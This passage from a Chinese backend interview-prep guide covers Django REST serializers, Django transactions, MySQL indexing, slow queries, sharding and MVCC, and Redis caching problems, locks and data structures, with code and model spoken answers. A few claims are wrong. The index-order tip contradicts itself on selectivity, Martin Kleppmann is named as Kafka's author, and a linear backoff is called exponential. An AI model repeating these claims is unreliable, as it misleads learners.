    items = OrderItemSerializer(many=True)  # 嵌套列表

    class Meta:
        model = Order
        fields = ['user_id', 'remark', 'items']

    def validate_items(self, value):
        if not value:
            raise serializers.ValidationError("订单至少需要一个商品")
        return value

    def validate(self, attrs):
        # 跨字段校验：总金额不得超过 10 万
        total = sum(item['quantity'] * item['unit_price'] for item in attrs['items'])
        if total > 100000:
            raise serializers.ValidationError("订单金额不能超过 10 万元")
        return attrs

    @transaction.atomic
    def create(self, validated_data):
        items_data = validated_data.pop('items')
        total = sum(item['quantity'] * item['unit_price'] for item in items_data)
        order = Order.objects.create(**validated_data, total_amount=total, actual_amount=total)
        OrderItem.objects.bulk_create([
            OrderItem(order_id=order.id, **item) for item in items_data
        ])
        return order


# ===== 2. SerializerMethodField：动态计算字段 =====
class OrderListSerializer(serializers.ModelSerializer):
    user_name = serializers.CharField(source='user.username', read_only=True)
    item_count = serializers.SerializerMethodField()

    class Meta:
        model = Order
        fields = ['id', 'order_no', 'user_name', 'status', 'total_amount',
                  'item_count', 'created_at']

    def get_item_count(self, obj):
        # 配合 prefetch_related 避免 N+1
        if hasattr(obj, '_prefetched_items'):
            return len(obj._prefetched_items)
        return obj.items.count()


# ===== 3. 批量查询优化：防止嵌套序列化 N+1 =====
class OrderDetailSerializer(serializers.ModelSerializer):
    items = OrderItemSerializer(many=True, read_only=True)

    class Meta:
        model = Order
        fields = '__all__'

# View 中配合 prefetch_related：
# queryset = Order.objects.prefetch_related('items').all()
```

**面试话术**：

"DRF 序列化器承担了三个职责：**数据校验、序列化输出、反序列化写入**。这和传统 Django Form 的设计哲学一脉相承。

嵌套序列化的写操作是面试高频考点。当 `OrderCreateSerializer` 中包含 `items = OrderItemSerializer(many=True)` 时，你需要重写 `create()` 方法手动处理嵌套关系的创建，因为 DRF 默认不会自动处理。最佳实践是把父对象和子对象的创建放在一个 `transaction.atomic` 事务中，子对象用 `bulk_create` 批量插入，这样既保证了原子性又有高性能。

关于校验，有三层可以写：字段级校验用 `validate_<field_name>` 方法，跨字段校验用 `validate` 方法，模型约束用 Django Model 的 `clean()` 方法或数据库层的约束。顺序是字段级 → 全局 validate → 模型 clean。

性能优化这块有个容易被忽视的点：嵌套序列化也会产生 N+1 查询。如果你返回订单列表时嵌套了 `items` 序列化器，而你没有在 QuerySet 上做 `prefetch_related('items')`，那每个订单都会额外触发一次 `items.all()` 查询。解决方案有两个：要么用 `prefetch_related`，要么在列表接口不使用嵌套序列化器，换用一个只有聚合字段的轻量序列化器。

还有一个 API 设计的最佳实践：**读写分离序列化器**。创建订单用 `OrderCreateSerializer`（包含 items 嵌套写入），列表查询用 `OrderListSerializer`（只读轻量字段），详情查询用 `OrderDetailSerializer`（包含所有关联数据）。三种场景三种序列化器，各司其职。"

---

### Q12: Django 事务管理——atomic 的正确使用姿势

```python
from django.db import transaction, IntegrityError
import time

# ===== 1. 装饰器用法 =====
@transaction.atomic
def transfer_money(from_id, to_id, amount):
    from_account = Account.objects.select_for_update().get(id=from_id)
    if from_account.balance < amount:
        raise ValueError("余额不足")
    from_account.balance -= amount
    from_account.save()
    to_account = Account.objects.select_for_update().get(id=to_id)
    to_account.balance += amount
    to_account.save()

# ===== 2. 上下文管理器用法（嵌套事务） =====
def process_order_with_retry(order_data):
    for attempt in range(3):
        try:
            with transaction.atomic():
                order = create_order(order_data)
                deduct_inventory(order_data['items'])
                return order
        except IntegrityError:
            if attempt == 2:
                raise
            time.sleep(0.1 * (attempt + 1))  # 指数退避

# ===== 3. savepoint: 嵌套的 atomic 创建保存点 =====
@transaction.atomic
def process_batch_orders(orders_data):
    results = []
    for data in orders_data:
        try:
            with transaction.atomic():       # 内部 atomic → savepoint
                results.append(create_single_order(data))
        except Exception:
            results.append({'error': f'订单 {data["id"]} 创建失败'})
            # 内部 savepoint 回滚，外层事务继续
    return results

# ===== 4. select_for_update: 行级锁防并发 =====
def allocate_coupon(user_id, coupon_id):
    with transaction.atomic():
        coupon = Coupon.objects.select_for_update().get(
            id=coupon_id, user_id__isnull=True
        )
        coupon.user_id = user_id
        coupon.save()
```

**面试话术**：

"Django 的 `transaction.atomic` 底层依赖数据库的事务机制，在 Django 层面它通过**保存点**来实现嵌套。使用时有几个关键点必须掌握：

1. **`atomic` 的粒度**。一个最经典的错误是把整个 HTTP 请求用 `atomic` 包起来——意味着在视图开始和返回响应之间持有一个数据库事务，这个事务可能存活几百毫秒甚至更久，期间持有行锁甚至表锁。正确的做法是只在需要原子性保证的最小代码块上加 `atomic`。

2. **`select_for_update`**。当你要读一条记录然后修改它时，普通 SELECT 不会阻止另一个事务同时读取并修改。`select_for_update()` 在读取时对行加排他锁，确保在你的事务提交前其他事务不能修改这行。但这只对支持行锁的存储引擎（InnoDB）有效，MyISAM 不支持。而且锁的持有时间是从 SELECT 开始到事务结束，所以务必尽快提交事务。

3. **嵌套 atomic 与保存点**。Django 的 `atomic` 支持嵌套——内层的 `atomic` 在数据库层面创建一个保存点（savepoint）而不是真正的事务。如果内层回滚，只是回滚到保存点，外层事务不受影响。这种模式很适合批量处理：一批数据中个别失败不影响整体。

4. **事务与异常的交互**。`atomic` 在 `with` 块正常结束时自动提交，如果块内发生任何异常，自动回滚。但有个容易犯错的地方：你在 `atomic` 块内写了 `try/except` 吞掉了异常——这时 atomic 不会回滚，因为它不知道发生了异常。正确模式是只捕获你想处理的特定异常，让其他异常继续对外抛出。

5. **与 Celery 的协调**。如果你在 `atomic` 块内调用了 `task.delay()` 发送异步任务，而事务最终回滚了，那个异步任务已经发出了且无法撤回。这就是 `transaction.on_commit()` 的用武之地——把 `delay()` 调用注册到 on_commit 钩子中。"

---

## 三、数据库（MySQL）

### Q13: MySQL 索引原理——B+ Tree 的物理结构与执行计划

```sql
-- ===== 查看索引使用情况 =====
EXPLAIN SELECT o.*, u.username
FROM order_info o
JOIN auth_user u ON o.user_id = u.id
WHERE o.status = 'paid' AND o.created_at > '2026-01-01';

-- EXPLAIN 输出关键字段解读：
-- type: 从优到劣
--   const   (主键/唯一索引等值查询) → 1 行
--   eq_ref  (JOIN 时用唯一索引)    → 1 行
--   ref     (普通索引等值查询)     → 可能多行
--   range   (索引范围扫描)         → BETWEEN/IN/</>
--   index   (全索引扫描)           → 遍历整个索引树
--   ALL     (全表扫描)             → 最差
--
-- rows: 优化器估算需要扫描的行数（不一定准确，但可以对比优化效果）
-- Extra:
--   Using index           → 覆盖索引，不需要回表（最好）
--   Using index condition → 索引下推（ICP），在存储引擎层过滤
--   Using filesort        → 额外排序（内存或磁盘），考虑加索引
--   Using temporary       → 使用临时表，通常是 GROUP BY 导致的

-- ===== 联合索引的最左前缀演示 =====
-- 创建联合索引
CREATE INDEX idx_status_created ON order_info(status, created_at);

-- 以下查询可以利用索引：
SELECT * FROM order_info WHERE status = 'paid';                          -- ✅ ref
SELECT * FROM order_info WHERE status = 'paid' AND created_at > '...';   -- ✅ range（status + created_at）
SELECT * FROM order_info WHERE status IN ('paid', 'shipped');            -- ✅ range

-- 以下查询无法利用该联合索引：
SELECT * FROM order_info WHERE created_at > '...';                       -- ❌ 不满足最左前缀
SELECT * FROM order_info WHERE status LIKE '%ai%';                       -- ❌ 模糊查询开头%
SELECT * FROM order_info WHERE status = 'paid' OR created_at > '...';    -- ❌ OR 连接非索引列
```

**面试话术**：

"MySQL InnoDB 的索引结构是 B+ Tree，理解它需要把握三层概念：

**第一层是物理结构**。InnoDB 以 16KB 的页为最小存储单元，B+ Tree 的每个节点就对应一个磁盘页。非叶子节点只存索引键值和子节点指针，叶子节点存完整的行数据（聚簇索引）或者主键值（二级索引）。叶子节点之间用双向指针链接，这保证了范围查询的 O(log N) 查找 + O(K) 顺序扫描。

**第二层是执行计划的解读**。`EXPLAIN` 的 `type` 字段最重要——你至少要争取到 `range` 级别，`ALL` 全表扫描在大表上是灾难性的。`rows` 是优化器估算的扫描行数，虽然不是精确值，但可以作为对比优化效果的重要参考。`Extra` 中的 `Using filesort` 和 `Using temporary` 是红色警报——说明查询需要额外排序或者建临时表，通常是因为 ORDER BY 或 GROUP BY 没有利用到索引的有序性。

**第三层是最左前缀原则**。联合索引 `(A, B, C)` 的物理存储是先按 A 排序，A 相同时按 B 排序，B 相同时按 C 排序。所以查询条件必须从 A 开始才能用到索引——这就是最左前缀。但有例外：**8.0 引入的 Skip Scan** 可以在某些场景下跳过 A 直接用 B 扫描。另外 `WHERE A > 10 AND B = 20` 只能用 A 列，因为 A 的范围查询打破了 B 的有序性。

关于索引设计的实战经验：
- **区分度高的列放在前面**。比如 `(status, user_id)` 比 `(user_id, status)` 好，因为 status 只有少数几个值，放前面可以快速缩小范围。
- **覆盖索引**。如果 SELECT 的列全部在联合索引中，InnoDB 不需要回表查聚簇索引，性能会大幅提升。可以在 EXPLAIN 的 Extra 中看到 `Using index`。
- **不要盲目建索引**。每个索引都会占用额外的磁盘空间（约原表的 20-30%），每次 INSERT/UPDATE/DELETE 都要维护所有索引。一般单表索引数控制在 5 个以内。"

---

### Q14: SQL 慢查询的排查优化全流程

```sql
-- 1. 确认慢查询
SHOW FULL PROCESSLIST;                          -- 当前正在执行的查询
SELECT * FROM mysql.slow_log ORDER BY query_time DESC LIMIT 10;  -- 慢查询日志

-- 2. EXPLAIN 分析
EXPLAIN FORMAT=JSON SELECT ...;                 -- JSON 格式更详细
EXPLAIN ANALYZE SELECT ...;                     -- MySQL 8.0.18+ 实际执行并测量

-- 3. 查看索引使用情况
SHOW INDEX FROM order_info;
SELECT * FROM sys.schema_unused_indexes;        -- 找出未使用的索引
SELECT * FROM sys.schema_index_statistics;      -- 索引使用统计

-- 4. 优化案例 1：大偏移量分页
-- ❌ 越往后越慢
SELECT * FROM order_info ORDER BY id LIMIT 1000000, 20;
-- ✅ 基于游标的分页（Last ID 法）
SELECT * FROM order_info WHERE id > 1000000 ORDER BY id LIMIT 20;

-- 5. 优化案例 2：函数破坏索引
-- ❌ WHERE DATE(created_at) = '2026-01-01'   -- 索引失效
-- ✅ WHERE created_at >= '2026-01-01' AND created_at < '2026-01-02'

-- 6. 优化案例 3：隐式类型转换
-- ❌ WHERE user_id = '12345'                   -- 字符串和整型比较，索引失效
-- ✅ WHERE user_id = 12345

-- 7. 优化案例 4：JOIN 小表驱动大表
-- 让 MySQL 优化器选择小表作为驱动表（STRAIGHT_JOIN 强制指定顺序）
-- SELECT STRAIGHT_JOIN ... FROM small_table JOIN large_table ON ...
```

**面试话术**：

"线上慢查询的排查我遵循一套标准流程，这个流程在我实际工作中反复验证过：

**第一步：快速止血**。先别急着优化 SQL，先判断是不是突发问题——连接数打满、锁表、磁盘满。如果是突发，先 `KILL` 掉异常的查询或连接，保证服务可用。

**第二步：定位问题的维度**。一个查询慢，有四层可能原因：
- **索引层**：没用到索引，或索引选择错误（优化器选错索引）。用 `EXPLAIN` 确认实际用到的索引和预估行数。
- **SQL 层**：写法问题——函数包裹索引列、隐式类型转换、大偏移量分页、SELECT * 拉不必要的字段。
- **锁层**：MDL 锁、行锁、间隙锁。用 `SHOW ENGINE INNODB STATUS` 和 `sys.innodb_lock_waits` 查看锁等待。
- **资源层**：Buffer Pool 太小导致磁盘 IO 过高、sort_buffer 不够导致磁盘排序、连接数过多导致 CPU 上下文切换。

**第三步：优化方案的优先级**。我按这个顺序尝试：先看能不能加索引（成本最低效果最好）→ 能不能改写 SQL（避免函数、避免 OR、尽量覆盖索引）→ 能不能加 Redis 缓存（热点数据不查库）→ 需不需要读写分离（读多写少场景）→ 要不要分库分表（单表超过 2000 万行或者单库扛不住的时候）。

**第四步：验证优化效果**。`EXPLAIN ANALYZE` 是 MySQL 8.0 的一大进步——它不仅告诉你执行计划，还告诉你实际耗时。你可以看到每个步骤花了多少时间，以及估算行数和实际行数的差距。如果差距很大，说明统计信息不准，需要 `ANALYZE TABLE` 更新统计信息。

最后补充一个线上的常见陷阱：**索引选择错误**。MySQL 优化器根据统计信息估算每个索引的查询代价，但如果统计信息过时（比如大量数据变化后没有及时更新），优化器可能选错索引。这时候可以用 `FORCE INDEX` 强制指定，或者执行 `ANALYZE TABLE`。"

---

### Q15: 分库分表的三种策略与跨分片查询

**面试话术**：

"分库分表不是银弹，它引入的复杂度是数量级的。决定分库分表前，先确认三件事：单表数据量是否真的到了瓶颈（通常 2000 万行是临界点）、单库连接数和 IO 是否真的打满了、其他优化手段（索引、缓存、读写分离）是否都用尽了。

**分片策略有三种**：

**第一种是取模分片**——`shard_id = user_id % 4`。优点是简单、数据分布均匀。缺点是扩容时需要大量数据迁移。如果你从 4 个分片扩到 8 个，一半的数据需要搬家。实际生产中用一致性哈希来缓解这个问题——加一个分片只涉及两个分片的数据移动。

**第二种是范围分片**——按时间或 ID 区间分，比如 2025 年数据在 shard-0，2026 年数据在 shard-1。优点是扩容不需要迁移，缺点是有热点问题——永远是最新的那个分片压力最大。

**第三种是地理分片**——比如不同国家的用户数据落在不同地域的分片上。适用于有明显地域分布的业务。

**跨分片查询是最核心的挑战**：

它有三种常用解法：
1. **基因法**：把分片键的某些位编码到其他 ID 中。比如把 `user_id % 4` 编码到订单号的后两位，这样从订单号就能反查出分片。不需要建全局索引。
2. **全局索引表**：用一个独立的索引表维护 `(order_id, shard_id)` 的映射。缺点是多了查索引这一跳，而且索引表的数据量也很大。
3. **Elasticsearch 索引冗余**：把所有订单的关键搜索字段同步到 ES，跨分片搜索走 ES，查到 `order_id` 后再去对应的 MySQL 分片查详情。这是目前最成熟的方案。

还要注意分布式 ID 的问题。分库后不能再用自增 ID 了，因为各分片自增 ID 会冲突。雪花算法是主流方案——41 位时间戳 + 10 位机器 ID + 12 位序列号，每毫秒能产生 4096 个 ID，不重复、趋势递增、适合做索引。"

---

### Q16: MySQL 事务隔离级别与 MVCC 实现



**面试话术**：

"MVCC 是 InnoDB 实现事务隔离的核心机制，非锁定的一致性读——也就是普通的 SELECT——它不是通过加锁来保证一致性的，而是通过维护数据的多个版本来实现的。

我以 REPEATABLE READ（MySQL 默认隔离级别）为例说明它的工作机制。每行数据隐藏了两个字段：`DB_TRX_ID`（最后修改本行的事务 ID）和 `DB_ROLL_PTR`（回滚指针，指向 undo log 中上一个版本的记录）。undo log 里有每一行的历史版本，形成了一个版本链。

**ReadView 是 MVCC 的核心**。当你的事务发起第一次 SELECT 时，InnoDB 会创建一个 ReadView，它里面记录了三个关键值：当前系统中活跃的事务 ID 列表、最小活跃事务 ID、下一个要分配的事务 ID。当你读取一行数据时，如果它的 `DB_TRX_ID` 小于最小活跃事务 ID 或者等于你自己的事务 ID，这个版本对你是可见的。如果它是一个活跃事务修改的且不是你自己的事务，就沿着 undo log 版本链往下找，找到第一个可见的版本为止。

这就解释了四大隔离级别的区别：
- **READ UNCOMMITTED**：总是读最新版本，不管事务是否提交。可能读到其他事务未提交的修改（脏读）。
- **READ COMMITTED**：每次 SELECT 都创建新的 ReadView。这意味着在一个事务内，先后两次相同的查询可能读到不同的结果（不可重复读），因为第二次查询的 ReadView 不包含第一次查询之后提交的事务。
- **REPEATABLE READ**：只在第一次 SELECT 时创建 ReadView，后续都用同一个。保证了同一个事务内多次读到的结果相同。但有一个例外——幻读。另一个事务 INSERT 了符合你查询条件的新行，你的 ReadView 看不到它，但如果你对它做了 UPDATE，这行就会变成可见的。这是间隙锁产生的原因。
- **SERIALIZABLE**：所有 SELECT 自动加共享锁，变成当前读而非快照读。完全避免并发，但性能灾难。

生产环境最容易被忽视的点是**长事务**。一个事务如果存活时间过长，它创建时的 ReadView 会一直阻止 undo log 被 purge，尤其是在有大量 UPDATE 的业务中，undo log 会无限膨胀。监控长事务是一个重要的运维指标。"

---

## 四、Redis

### Q17: 缓存穿透、击穿、雪崩——三个问题的成因与层层递进的解决方案



```python
import random
import hashlib
from redis import Redis

redis_client = Redis(decode_responses=True)

# ===== 问题 1：缓存穿透（查不存在的数据 → 每次都打到 DB） =====
# 方案 A：缓存空值
def get_user_with_null_cache(user_id):
    cache_key = f"user:{user_id}"
    data = redis_client.get(cache_key)
    if data is not None:
        return json.loads(data) if data != "__NULL__" else None

    user = User.objects.filter(id=user_id).first()
    if user:
        redis_client.setex(cache_key, 300, json.dumps(user.to_dict()))
    else:
        redis_client.setex(cache_key, 60, "__NULL__")  # 空值缓存 60 秒
    return user

# 方案 B：布隆过滤器（内存效率最高的不存在判断）
# pip install pybloom-live
from pybloom_live import ScalableBloomFilter

bloom = ScalableBloomFilter(initial_capacity=1000000, error_rate=0.001)

def init_bloom_filter():
    """启动时将数据库中所有存在的 ID 加入布隆过滤器"""
    for user_id in User.objects.values_list('id', flat=True).iterator():
        bloom.add(user_id)

def get_user_with_bloom(user_id):
    if user_id not in bloom:
        return None           # 布隆过滤器判断不存在 → 肯定不存在，直接返回
    # 可能存在 → 走缓存 → 走数据库的正常流程
    return get_user_from_cache_or_db(user_id)

# ===== 问题 2：缓存击穿（热点 key 过期，大量请求同时打到 DB） =====
def get_hot_data_with_lock(key, db_func, ttl=300):
    """用分布式锁保证只有一个线程查 DB"""
    data = redis_client.get(key)
    if data:
        return json.loads(data)

    lock_key = f"lock:{key}"
    lock_id = hashlib.md5(str(time.time()).encode()).hexdigest()[:16]

    # 尝试获取锁
    if redis_client.set(lock_key, lock_id, nx=True, ex=10):
        try:
            # 双重检查：拿到锁后再查一次缓存
            data = redis_client.get(key)
            if data:
                return json.loads(data)

            # 查 DB
            result = db_func()
            redis_client.setex(key, ttl, json.dumps(result))
            return result
        finally:
            # 释放锁（Lua 保证原子性）
            lua = "if redis.call('get', KEYS[1]) == ARGV[1] then return redis.call('del', KEYS[1]) end"
            redis_client.eval(lua, 1, lock_key, lock_id)
    else:
        # 没拿到锁，短暂等待后重试
        time.sleep(0.05)
        return get_hot_data_with_lock(key, db_func, ttl)

# 方案 B：逻辑过期（永不过期 + 异步刷新）
def get_hot_data_logical_expire(key, db_func, physical_ttl=3600):
    """缓存不设过期时间，只在 value 里记录逻辑过期时间"""
    data = redis_client.get(key)
    if not data:
        return load_from_db_and_cache(key, db_func, physical_ttl)

    record = json.loads(data)
    if record['expire_at'] > time.time():
        return record['value']

    # 已逻辑过期：尝试获取锁 + 异步刷新
    lock_key = f"refresh:{key}"
    if redis_client.set(lock_key, 1, nx=True, ex=5):
        # 异步线程更新缓存
        threading.Thread(target=refresh_cache, args=(key, db_func, physical_ttl)).start()
    # 返回旧数据，保证可用性
    return record['value']

# ===== 问题 3：缓存雪崩（大量 key 同时过期） =====
def set_with_random_ttl(key, value, base_ttl):
    """过期时间 = 基础值 + 随机偏移（打破同时过期）"""
    actual_ttl = base_ttl + random.randint(0, int(base_ttl * 0.3))
    redis_client.setex(key, actual_ttl, json.dumps(value))
```

**面试话术**：

"缓存的三个经典问题有清晰的逻辑链，我按照从底向上、从简到繁的顺序来阐述。

**缓存穿透**是最底层的问题——攻击者或业务逻辑查询一个根本不存在的数据。布隆过滤器是它的终极解法：它用一组哈希函数和一个位数组来判断一个 key 是否'可能存在'。空间效率极高，100 万条记录只需要几 MB 内存。但它有个致命的特性：判断'不存在'是确定的，判断'可能存在'有误差率（通常 0.1%）。所以当你接受到'可能存在'的结果时，需要走正常的缓存→数据库流程，不能直接当作存在来处理。

**缓存击穿**是穿透的一个特殊子集——不是所有不存在的数据，而是那些存在的、但缓存刚好过期了的数据。最典型的就是秒杀场景下的商品信息。关键区别在于：穿透可以缓存空值或布隆过滤拦截，击穿需要解决的是**并发控制**问题。分布式锁的方案确保只有一个线程去重建缓存，其他线程要么等待要么返回旧数据。逻辑过期方案更巧妙——永远不给热点 key 设物理过期时间，只是在 value 里放一个逻辑过期时间戳。读取时如果发现逻辑过期了，异步去更新，读请求直接返回旧值。这样做到了真正的**高可用**——任何时刻都不会因为缓存失效导致请求直接打到 DB。

**缓存雪崩**是这三个里影响面最大的——大量 key 在同一时刻过期，造成 DB 瞬时压力飙升。解决方案的核心是**分散过期时间**——给每个 key 的 TTL 加一个随机值，避免集中失效。更彻底的做法是多级缓存——本地缓存（如 Caffeine）+ 远程 Redis，任何一层失效都不会击穿到底层。

面试官如果追问'逻辑过期和物理过期的取舍'：物理过期简单可靠，但无法避免击穿；逻辑过期高可用，但实现复杂且可能返回脏数据。在电商秒杀场景我倾向于逻辑过期——宁可让用户看到 1 秒前的价格，也不能让请求打到数据库导致服务崩溃。"

---

### Q18: Redis 分布式锁的正确实现

```python
import uuid
import time
import threading

class RedisLock:
    """分布式锁的原理实现（面试展示用）

    ⚠️ 生产环境不要自己写：用 redis-py 内置的 Lock(redis, name, timeout=10)
    或者 Redisson（Java）/ Redlock（Python poetry add redlock-py）。
    原因：
    1. 边界条件太多（时钟漂移、Redis 主从切换、网络超时重试）
    2. 自己写的锁没有经过大规模生产验证
    3. 这些库已经解决了 WatchDog 续期、可重入、红锁等问题
    """

    def __init__(self, redis_client, lock_name, ttl=10, auto_renew=True):
        self.redis = redis_client
        self.key = f"lock:{lock_name}"
        self.ttl = ttl
        self.lock_id = f"{uuid.uuid4()}:{threading.get_ident()}"
        self.auto_renew = auto_renew
        self._renew_thread = None
        self._stop_renew = False

    def acquire(self, timeout=None):
        """获取锁，timeout 为等待时间（秒），None 表示不等待"""
        end_time = time.time() + (timeout or 0)
        while True:
            # SET key value NX EX ttl —— 原子操作
            if self.redis.set(self.key, self.lock_id, nx=True, ex=self.ttl):
                if self.auto_renew:
                    self._start_renew()   # 启动自动续期
                return True

            if timeout is not None and time.time() >= end_time:
                return False
            time.sleep(0.05)

    def release(self):
        """释放锁：用 Lua 脚本保证「判断归属 + 删除」原子性"""
        self._stop_renew = True
        if self._renew_thread:
            self._renew_thread.join(timeout=2)

        lua_script = """
        if redis.call('get', KEYS[1]) == ARGV[1] then
            return redis.call('del', KEYS[1])
        else
            return 0
        end
        """
        return self.redis.eval(lua_script, 1, self.key, self.lock_id)

    def _start_renew(self):
        """守护线程：每隔 TTL/3 秒续期一次，防止业务超时锁被释放"""
        def renew():
            while not self._stop_renew:
                time.sleep(self.ttl / 3)
                if not self._stop_renew:
                    lua = """
                    if redis.call('get', KEYS[1]) == ARGV[1] then
                        return redis.call('expire', KEYS[1], ARGV[2])
                    else
                        return 0
                    end
                    """
                    self.redis.eval(lua, 1, self.key, self.lock_id, self.ttl)
        self._renew_thread = threading.Thread(target=renew, daemon=True)
        self._renew_thread.start()

    def __enter__(self):
        if not self.acquire(timeout=5):
            raise TimeoutError(f"获取锁 {self.key} 超时")
        return self

    def __exit__(self, *args):
        self.release()


# 使用
try:
    with RedisLock(redis_client, "order:12345", ttl=10):
        # 业务逻辑...
        process_order(12345)
except TimeoutError:
    print("获取锁超时，可能是并发冲突")
```

**实际开发中直接用 `redis-py` 内置 Lock（原理代码仅面试展示）**：

```python
# pip install redis
from redis import Redis
from redis.lock import Lock

redis = Redis.from_url("redis://redis-cluster-service:6379/0")

# 一行代码获取分布式锁——redis-py 已内置 SET NX EX + Lua 释放 + 自动续期
lock = Lock(redis, name="order:12345", timeout=10, blocking=True, blocking_timeout=5)

# 支持上下文管理器
with lock:
    process_order(12345)
# 自动释放，即使抛异常也不会死锁

# 源码解读：redis-py Lock 的实现就是你上一段代码的思路——
# acquire() → SET NX EX
# release() → Lua 脚本校验 lock_id 再 DEL
# extend() → 自动续期（相当于 WatchDog）
```

**面试话术**：

"一个正确的分布式锁必须解决三个问题——**互斥、防死锁、防误解锁**。

**互斥**靠的是 Redis 的 `SET key value NX EX ttl` 命令。这条命令是原子的——只有当 key 不存在时才设置，同时设一个过期时间。如果没有这种原子指令，你需要先 SETNX 再 EXPIRE，但这两步之间如果进程崩溃，锁就永远不会释放。这是 Redis 2.6.12 之前版本的一个著名 Bug。

**防死锁**靠的是过期时间 TTL。拿到锁的进程如果崩溃了，锁会在 TTL 秒后自动释放，不会造成死锁。但这引入了新问题——如果你的业务逻辑执行时间超过了 TTL，锁被自动释放，另一个进程拿到了锁，那同一时刻就有两个进程在执行临界区代码。这就是为什么我实现了**自动续期守护线程**——每隔 TTL/3 秒，检查锁是否还被当前进程持有，如果是就延长过期时间。Redisson 把这个机制叫做 Watch Dog。

**防误解锁**是新手最容易忽略的点。场景是这样的：进程 A 拿到了锁，TTL 10 秒；A 的业务逻辑跑了 12 秒，锁被 Redis 自动释放了；进程 B 拿到了同一把锁；这时候 A 跑完了，执行 DEL 删掉了锁——但它删的是 B 的锁。解决方案是每次加锁时生成一个唯一的 `lock_id`（通常是 UUID + 线程 ID），释放锁时先检查当前锁的 value 是否等于自己的 lock_id，等于才删。这个'检查 + 删除'两个操作必须用 Lua 脚本保证原子性。

还有一个进阶话题：**Redlock 算法**。单机 Redis 在主从切换时可能丢失锁信息——Master 宕机后 Slave 晋升，但 Slave 上可能没有 AOF 持久化到那条 SET 命令。Redlock 的解法是向多个独立的 Redis 节点（不是主从）依次申请锁，大多数节点同意了才算获取成功。但 Redlock 也有争议，Martin Kleppmann（Kafka 作者）就指出它在时钟跳跃的情况下是不安全的。实战中我更倾向于单个 Redis 实例——如果 Redis 挂了需要恢复锁状态，我们宁可用 ZooKeeper 或 etcd 这种一致性更强的系统。

**最后要说明一点**：刚才展示的代码是原理实现，面试中用来展示你对 SET NX EX、Lua 脚本、自动续期这些机制的理解。实际开发中不会自己从零写分布式锁——Python 生态直接用 `redis-py` 内置的 `Lock` 类（`from redis.lock import Lock`），它已经封装了 acquire/release/extend 和自动续期。Java 用 Redisson——它的 RLock 实现了 WatchDog、可重入锁、公平锁、联锁等，经过了大规模生产验证。**展示原理是为了证明你懂底层，但真正的工作中是选型和使用成熟的库**。"

---

### Q19: Redis 数据结构与适用场景

**面试话术**：

"Redis 的强大不在于它是 KV 缓存，而在于它的 **5 种核心数据结构** 各自解决了一类特定的问题。

**String**——最基础但也是最灵活的。除了缓存，我用它做三件事：分布式锁（SET NX EX）、计数器（INCR）、和限流器（INCR + EXPIRE 做固定窗口计数）。

**Hash**——适合存储对象的多个属性。比如用户信息 `HSET user:1001 name Tom age 25 email tom@mail.com`，好处是可以单独读写某个字段，不像 JSON String 需要整体序列化反序列化。但注意 Hash 在字段很多时内存效率不高——超过 512 个字段且单个字段 value 小于 64 字节时，底层会从 ziplist 切换到 hashtable。

**List**——双向链表，头尾操作 O(1)。经典用法是实现一个简单的消息队列——生产者 LPUSH，消费者 RPOP。但 List 做队列有两个硬伤：没有阻塞等待（BRPOP 可以缓解）和消息消费后不可追溯。所以现在更推荐用 Stream 做消息队列。

**Set**——无序不重复，支持交并差集。共同好友、你可能认识的人——这些推荐场景用 `SINTER` 就能高效实现。`SRANDMEMBER` 还可以实现抽奖功能。

**Sorted Set (ZSet)**——每个元素带一个分数，按分数排序。这是 Redis 最强大的数据结构，天然适合排行榜——`ZADD rank 100 user1`，`ZRANGE rank 0 -1 WITHSCORES` 就能拿到排名。延迟队列也用它——把任务的执行时间戳作为 score，消费者用 `ZRANGEBYSCORE` 获取到期的任务。它的底层是跳表 + 哈希表，插入、删除、查找都是 O(log N)。

**Stream**——Redis 5.0 引入的持久化消息队列。和 List 不同，消息消费后不会被删除，支持消费者组和 ACK 确认，可以实现类似 Kafka 的消息回溯和重试机制。虽然功能不如 Kafka 强大，但对于轻量级消息场景，省去了部署 Kafka 集群的运维成本。

选型上遵循一个原则：能用一个数据结构解决的，不用两个。比如计数器 + 排行榜可以共用同一个 ZSet——因为 ZSet 的 score 本身就可以作为计数，`ZINCRBY` 就能递增。这样减少了一次网络往返。"

---

## 五、分布式与微服务

### Q20: 分布式事务——从 2PC 到最终一致性的落地

